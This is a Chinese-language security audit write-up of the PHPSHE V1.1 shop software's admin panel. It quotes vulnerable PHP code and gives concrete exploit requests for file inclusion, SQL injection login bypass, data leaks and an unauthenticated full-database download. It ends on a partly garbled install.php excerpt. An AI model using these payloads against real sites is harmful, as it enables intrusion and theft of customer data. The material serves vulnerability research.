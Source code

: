 ## **PHPSHE V1.1 （四）**
### **後臺入口 admin.php**
和前臺一樣，該文件首先包含common.php文件。
<p>
然後是定義後臺導航菜單的陣列$adminmenu,接著就是判斷管理員權限，以及包含後臺操作類模塊。

```php
if (!pe_login('admin') && $act != 'login') 
{
    pe_goto('admin.php?mod=do&act=login');
}
if (pe_login('admin') && ($act == 'login' or $mod == 'index')) 
{
    pe_goto('admin.php?mod=order&act=list');
}
```
此處利用兩個`if`條件判斷登陸和未登入的兩種情況。
<p>

`漏洞出現`這裡用`&&`兩個條件。都達成的時候才會進入`pe_goto。`
<p>

在未登入的時候，只要`$act`為`login`的時候就不會進入`pe_goto`。

在登陸之後，只要`$act`不為`login`並且`$mod`不為`login`的時候也不會進入`pe_goto。`

再看後面，直接就包含了`$module`和`$mod`

```php
include("{$pe['path_root']}module/{$module}/{$mod}.php");
```

### **【Bug 0x13: 任意文件包含漏洞 有限制條件】（同 【Bug 0x01】）**

```/admin.php?mod=../../robots.txt%00&act=login```

後臺模塊
接下來，我們在跟進分析`/module/admin/`裏面的後臺模塊：
- ad.php
- admin.php
- article.php
- ask.php
- cache.php
- category.php
- class.php
- comment.php
- db.php
- do.php
- link.php
- order.php
- page.php
- payway.php
- product.php
- setting.php
- user.php

由於有`act=login`後臺操作我們就不能執行act等操作了。
<p>

直接看`switch ($act) {的default :`塊。
<p>

### **admin.php**
<p>
直接就可以看到管理員用戶名

### **【Bug 0x14: 信息洩漏】**
```/admin.php?mod=admin&act=login```

### **ask.php**

```php
default :
    $sqlwhere = " and `ask_state` = '".intval($_g_state)."'";
    $_g_name && $sqlwhere .= " and b.`product_name` like '%{$_g_name}%'";
    $_g_text && $sqlwhere .= " and a.`ask_text` like '%{$_g_text}%'";
    $_g_user_name && $sqlwhere .= " and a.`user_name` like '%{$_g_user_name}%'";
    $sql = "select * from `".dbpre."ask` a,`".dbpre."product` b where a.`product_id` = b.`product_id` {$sqlwhere} order by a.`ask_id` desc";
    $info_list = $db->sql_selectall($sql, array(20, $_g_page));
```
看到了麼，限制了act也是有機可乘的。有一個注入存在。

### **【Bug 0x15: SQL注入 獲取任意數據庫數據】**

<pre>/admin.php?mod=ask&act=login&name=%' or 1=1%23</pre>

**comment.php & order.php & product.php & user.php**

### **【Bug 0x16: SQL注入 獲取任意數據庫數據】（同 【Bug 0x15】）**

### **db.php**
大致瀏覽、發現這是一個數據庫備份導入模塊，並且與其他模塊不同，沒有用到`switch`。
<p>

只判斷了`$act == 'import'`導入功能，對於備份並沒有用act判斷。

```php
if (isset($_p_pebackup)) 
{//備份資料庫
    $pe_cutsql = "/*#####################@ pe_cutsql @#####################*/\n";
    if (isset($_p_pebackup)) 
    {//不分卷
        if ($_p_backup_cut && $_p_backup_where == 'down') 
            pe_error('只有在備份在伺服器才可以使用分卷功能...');
        if ($_p_backup_cut && !$_p_backup_cutsize) 
            pe_error('使用分卷備份必須填寫分卷文件大小...');
        if ($_p_backup_where == "server") 
        {
            !is_dir($back_path) && mkdir($back_path, 0777, true);
            !is_writable($back_path) && pe_error("{$back_path} 目錄沒有寫入權限...");
        }
        if (!$_p_backup_cut) 
        {
            $sql_arr = array();
            foreach ($table_list as $v) 
            {
                $sql_arr = array_merge($sql_arr, dosql($v['Name']));
            }
            $sql = implode($pe_cutsql, $sql_arr);
            if ($_p_backup_where == 'down') 
            {
                down_file($sql, "db_all.sql");
            }
            elseif ($_p_backup_where == 'server') 
            {
                if (file_put_contents("{$back_path}db_all.sql", $sql)) 
                {
                    pe_success("資料庫備份完成！");
                }
                else {
                    pe_error("資料庫備份失敗...");
                }
            }
        }
        else 
        {
            $vnum = 1;
            $sql_arr = array();
            foreach ($table_list as $v) 
            {
                $sql_arr = array_merge($sql_arr, dosql($v['Name']));
                $sql = implode($pe_cutsql, $sql_arr);
                if (strlen($sql) >= $_p_backup_cutsize * 1000) 
                {
                    file_put_contents("{$back_path}db_v{$vnum}.sql", $sql);
                    $sql_arr = array();
                    $vnum++;
                }
            }
            $sql && file_put_contents("{$back_path}db_v{$vnum}.sql", $sql);
            pe_success("資料分卷備份完成！");
        }
    }
}
```
因此，我們可以直接備份數據庫，下載襲來。

```php
if ($_p_backup_where == 'down') {
    down_file($sql, "db_all.sql");
}
```

### **【Bug 0x17: 完全數據庫信息洩漏】**
POST:
<p>
<pre>/admin.php?mod=db&act=login</pre>
DATA:
<p>
<pre>backup_cut=0&backup_where=down&pebackup=1</pre>


### **do.php**

```php
default:
    if (isset($_p_pesubmit)) 
    {
        $_p_info['admin_pw'] = md5($_p_info['admin_pw']);
        if ($info = $db->pe_select('admin', pe_dbhold($_p_info))) 
        {
            $db->pe_update('admin', array('admin_id'=>$info['admin_id']), array('admin_ltime'=>time()));
```

### **【Bug 0x18: SQL注入 任意用戶登陸】（同【Bug 0x09】）**
<pre>
/admin.php?mod=do&act=login

info[admin_name`<>1-- -]=admin&info[admin_pw]=admin&pesubmit=+
</pre>

一般來說，到這裡基本上就要結束了。
<p>
目前，並沒有找到什麼可以getshell的漏洞。
<p>
不要放棄，還有個地方我們沒看。
<p>
就是install目錄。
<p>

### **isntall.php**
看了下，這個文件利用沒有lock限制。
<p>
這樣可以導致重裝覆蓋，產生一個不小的漏洞。

```php
switch ($_g_step) {
    //#####################@ 配置信息 @#####################//
    case 'setting':
        if (isset($_p_pesubmit)) 
        {
            $dbconn = mysql_connect("{$_p_db_host}:{$_p_db_port}", $_p_db_user, $_p_db_pw);
            if (!$dbconn) pe_error('資料庫連接失敗...數據庫ip，用戶名，密碼對嗎？ ');
            if (!mysql_select_db($_p_db_name, $dbconn)) 
            {
                mysql_query("CREATE DATABASE `{$_p_db_name}` DEFAULT CHARACTER SET utf8", $dbconn);
                !mysql_select_db($_p_db_name, $dbconn) && pe_error('數據庫選擇失敗...數據庫名對嗎？');
            }
            mysql_query("SET NAMES utf8", $dbconn);
            mysql_query("SET sql_mode = ''", $dbconn);

            $sql_arr = explode('/*#####################@ pe_cutsql @#####################*/', file_get_contents("{$pe['path_root']}install/phpshe.sql"));
            foreach ($sql_arr as $v) 
            {
                $result = mysql_query(trim(str_ireplace('{dbpre}', $_p_dbpre, $v)));
            }
            if ($result) 
            {
                mysql_query("update `{$_p_dbpre}admin` set `admin_name` = '{$_p_admin_name}', `admin_pw` = '".md5($_p_admin_pw)."' where `admin_id`=1", $dbconn);
               	 $config = $pe['db_host'] = '{$_p_db_host}' //數據庫主機地址
			                $pe['db_name'] = '{$_p_db_name}'; //數據庫名稱
			                $pe['db_user'] = '{$_p_db_user}'; //數據庫用戶名
			                $pe['db_pw'] = '{$_p_db_pw}'; //數據庫密碼
			                $pe['db_coding'] = 'utf8';\n\
			                $pe['url_model'] = 'pathinfo'; //url模式,可選項(pathinfo/pathinfo_safe/php)
			                define('dbpre','{$_p_dbpre}'); //數據庫表前綴
                
                file_put_contents("{$pe['path_root']}config.php", $config);
                pe_goto("{$pe['host_root']}install/index.php?step=success");
            }
```